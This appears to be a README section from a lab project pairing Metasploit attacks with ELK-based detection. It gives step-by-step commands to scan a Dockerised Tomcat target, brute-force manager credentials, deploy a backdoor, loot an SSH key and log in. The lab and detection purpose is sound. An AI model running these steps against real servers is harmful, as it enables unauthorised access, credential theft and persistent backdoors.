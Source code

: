 # Execute Metasploit Attack to Tomcat Server

- Enter inside Metasploit container: 
`docker exec -it metasploit bash`

- Run pre-exploit script to scan target system and identify vulnerabilities:\
`./scripts/check-pre-exploit.sh vulnerable-mts 8080`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_
\
<br>
![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit-preexploit.png>)
\
<br>
- Run first exploit to get tomcat manager dashboard credentials:\
`./msfconsole -r ./scripts/tomcat_mgr_login.rc 8080 vulnerable-mts`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_
\
<br>
![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit_tomcat_mgr_login.png>)
\
<br>
- Run the second exploit to deploy a malicious file in the tomcat server which opens a persistent backdoor on the target system:\
`./msfconsole -r ./scripts/tomcat_deploy_attack.rc 8080 vulnerable-mts tomcat tomcat`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan, "tomcat" and "tomcat" are username and password credentials you get ith the previous step)_
\
<br>
![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit_tomcat_mgr_deploy.png>)
\
<br>
- Save the ssh-key given in ouput (i.e: "/root/.msf4/loot/20230318162758_default_172.30.0.6_id_rsa_776480.txt")
\
<br>
![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit-ssh.png>)
\
<br>
- Run the script to enter target system (ubuntu container):\ 
`./scripts/ssh-connection.sh <key> vulnerable-mts`\
_("vulnerable-mts" arg is the docker address of the target container, <key> args is the ssh key you get with the previous step)_